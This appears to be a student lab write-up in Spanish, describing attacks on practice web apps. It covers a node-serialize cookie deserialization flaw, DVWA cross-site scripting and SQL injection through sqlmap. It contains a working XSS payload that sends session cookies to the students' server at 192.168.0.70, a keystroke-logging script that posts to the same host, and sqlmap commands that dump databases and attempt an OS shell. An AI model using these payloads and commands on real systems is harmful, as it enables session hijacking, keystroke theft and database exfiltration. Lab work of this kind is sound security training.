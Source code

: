 ##### Ej 2
Cuando entramos a la pagina pudimos ver una imagen que describia un sitio en construccion y ademas de eso el sitio setea una cookie profile.
Al principio pensamos que era un tipo de jwt pero finalmente descubrimos que esta encodeada en base64 y obteniendo los siguientes datos:

{"username":"Admin",
"csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":"Friday, 13 Oct 2018 00:00:00 GMT"}

Ademas, una vez seteada esta cookie el la pagina falla con un error 500 mostrando el siguiente mensaje:

        SyntaxError: Unexpected token F in JSON at position 79
            at JSON.parse (<anonymous>)
            at Object.exports.unserialize (/under/node_modules/node-serialize/lib/serialize.js:62:16)
            at /under/server.js:12:29
            at Layer.handle [as handle_request] (/under/node_modules/express/lib/router/layer.js:95:5)
            at next (/under/node_modules/express/lib/router/route.js:137:13)
            at Route.dispatch (/under/node_modules/express/lib/router/route.js:112:3)
            at Layer.handle [as handle_request] (/under/node_modules/express/lib/router/layer.js:95:5)
            at /under/node_modules/express/lib/router/index.js:281:22
            at Function.process_params (/under/node_modules/express/lib/router/index.js:335:12)
            at next (/under/node_modules/express/lib/router/index.js:275:10)

Viendo este mensaje notamos que el sitio web usa node.js y modulos de este para serializar datos, ademas podemos ver que probablemete el backend este diseñado con el framework express y por ende con el lenguaje javaScript y por ende datos en forma de Json

El siguiente paso fue ver que pasaba si modificabamos la cookie profile, usando burp cambiamos en la cookie el username por otro string

{"username":"Seguridad",
"csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":"Friday, 13 Oct 2018 00:00:00 GMT"}
y viendo que en la pagina se mostraba Hello Seguridad.

Buscando informacion sobre la siguiente linea 

        at Object.exports.unserialize (/under/node_modules/node-serialize/lib/serialize.js:62:16)
Y teniendo en la cabeza que podria tener algo que ver con un problema en cuanto a la serializacion encotramos este [link](https://blog.websecurify.com/2017/02/hacking-node-serialize.html)
Pensamos que se podia tratar de una vulnerabilidad en cuanto a la serializacion de node que nos permitiria ejecutar codigo remotamente.

Buscando como poder explotar esta vulnerabilidad encontramos el siguiente [link](https://mars-cheng.github.io/blog/2018/Vulnhub-Temple-of-Doom-1-Write-up/) con un paso a paso sobre como explotar un fallo de seguiridad muy similar al encontrado en esta pagina usando un reverse shell attack y asi es posible obtener permisos de root.


##### Ej 5 

Primero realizamos el ataque basico de robo de cookies de sesion en cada una de las rutas, tanto en dvwa/vulnerabilities/xss_r/ como en /dvwa/vulnerabilities/xss_s/
el ataque lo realizamos primero abriendo un servidor controlado por nosotros con el comando 
        
        python -m SimpleHTTPServer
y luego enviando el siguiente input 

        <script>var i = new Image; i.src = "http://192.168.0.70:8000/"+document.cookie ; </script>

la ruta http://192.168.0.70:8000/ es nuestra ip y el puerto 8000 es donde esta seteado el SimpleHTTPServer

obteniendo como salida:

192.168.0.59 - - [27/Sep/2020 18:31:44] code 404, message File not found
192.168.0.59 - - [27/Sep/2020 18:31:44] "GET /security=low;%20PHPSESSID=v5cco41lqjuufohli3o6v0cvl0;%20acopendivids=swingset,jotto,phpbb2,redmine;%20acgroupswithpersist=nada HTTP/1.1" 404 -

obteniendo asi las cookies de sesion.
en ambas rutas funciona igual con la diferencia de que en /dvwa/vulnerabilities/xss_s/ el comando queda guardado y luego se ejecuta cada vez que se ingresa a esa pestaña.

Finalmente para realizar un ataque que capture las teclas presionadas por un usuario, se nos ocurrio intentar crear un script que envie mediante un post las teclas presionadas y almacenar estas en un archivo .txt 
no encontre una menera facil de hacer un post con el modulo SimpleHTTPServer asi que decidi crear mi propio server.py el cual esta adjuntado. una vez creado el server diseñamos el script que es el siguiente:

        <script type="text/javascript">
                var l = "";        
                document.onkeypress = function (e) {
                        l += e.key;
                var req = new XMLHttpRequest();
                req.open("POST","<http://192.168.0.70:7900/>", true); 			
                req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
                req.send("data=" + l);

                }
        </script>  
basicamente este script mediante  XMLHttpRequest nos envia un post con cada una de las teclas presiondas y las guarda en un archivo data.txt    
##### Ej 3
Para resolver este ejrcicio vimos a que direcciones hacia request la pagina web, y de esta forma vimos que la pagina pedia sus imagenes en la siguiente ruta /meme?id=

Investigando mas a fondo en esta ruta notamos que por ejeplo podiamos ingresar en la url cosas como /meme?id=1+AND+1=1 nos devuelve una imagen en base64 (es decir, contestaba nuestro request) lo mismo que hacer /meme?id=1 en cambio si hacemos /meme?id=1+AND+1=2 obtenemos un Not Found

Esto indicaba que probablemente la vulnerabilidad que existe en esta pagina web sea una sql injection.

Cuando supimos esto encontramos una herramienta llamada sqlmap la cual nos permitia explotar esta vulnerabilidad y asi poder ver la base de datos de la pagina.

Con el comando: 

        python sqlmap.py -u "http://143.0.100.198:5010/meme?id=1" --batch --dbs

pudimos ver que bases de datos contenia la pagina, obteniendo el siguiete output:

web application technology: Nginx 1.17.10
back-end DBMS: MySQL 5 (MariaDB fork)
available databases [4]:

[*] information_schema

[*] memes_db

[*] mysql

[*] performance_schema

luego con el siguiente comando

        python sqlmap.py -u "http://143.0.100.198:5010/meme?id=1" --batch --tables -D memes_db

vimos que la bd memes_db contiene las siguietes tablas
web application technology: Nginx 1.17.10
back-end DBMS: MySQL 5 (MariaDB fork)
Database: memes_db

[2 tables]

+--------+

| albums |

| memes  |

+--------+

con el comando: 

        python sqlmap.py -u "http://143.0.100.198:5010/meme?id=1" --batch --dump -T memes -D  memes_db

pudimos ver toda la info de la tabla memes.

Finalmente intentamos con el comando 

        python sqlmap.py -u "http://143.0.100.198:5010/meme?id=1" --batch --os-shell

para ver si podiamos conectarnos a la terminal del back-end pero no fue posible.

Finalmete sqlmap crea un archivo llamado log que almacena todo el output obtenido de las distintas corridas del programa. adjuntamos este archivo en la carpeta ej3 con el output obtenido de distintas ejecuciones. En este resumen incluimos todas las que nos devolvieron informacion util.





